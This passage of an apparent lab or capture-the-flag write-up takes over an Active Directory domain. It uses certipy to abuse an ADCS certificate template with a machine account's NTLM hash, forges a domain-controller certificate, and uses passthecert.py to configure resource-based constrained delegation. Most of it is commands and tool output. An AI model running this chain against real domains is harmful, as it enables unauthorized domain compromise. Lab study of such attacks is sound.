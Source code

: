 Then requesting a TGT:
```
certipy auth -pfx 'administrator.pfx' -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.215.165 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@hybrid.vl
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERROR_CLIENT_NOT_TRUSTED(Reserved for PKINIT)
```

This shows that PKINIT is not set up for this Domain, instead we can request a certificate for the domain controller and set up rbcd for a domain admin.

```
certipy req -username MAIL01\$@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -target-ip dc01.hybrid.vl -ca 'hybrid-DC01-CA' -template 'HybridComputers' -upn 'dc01$@hybrid.vl' -debug -key-size 4096
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'HYBRID.VL' at '192.168.1.1'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:dc01.hybrid.vl[\pipe\cert]
[+] Connected to endpoint: ncacn_np:dc01.hybrid.vl[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'dc01$@hybrid.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc01.pfx'
```

Convert the pfx to cert and key:
```
$ certipy cert -pfx dc01.pfx -nokey -out dc.crt
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing certificate and  to 'dc.crt'

$ certipy cert -pfx dc01.pfx -nocert -out dc.key
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Writing private key to 'dc.key'
```

Configure RBCD:
```
python3 passthecert.py -action write_rbcd -crt dc.crt -key dc.key -domain hybrid.vl -dc-ip 10.10.215.165 -delegate-to 'DC01$' -delegate-from 'mail01$'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] mail01$ can now impersonate users on DC01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     MAIL01$      (S-1-5-21-3436099999-75120703-3673112333-1103)
```
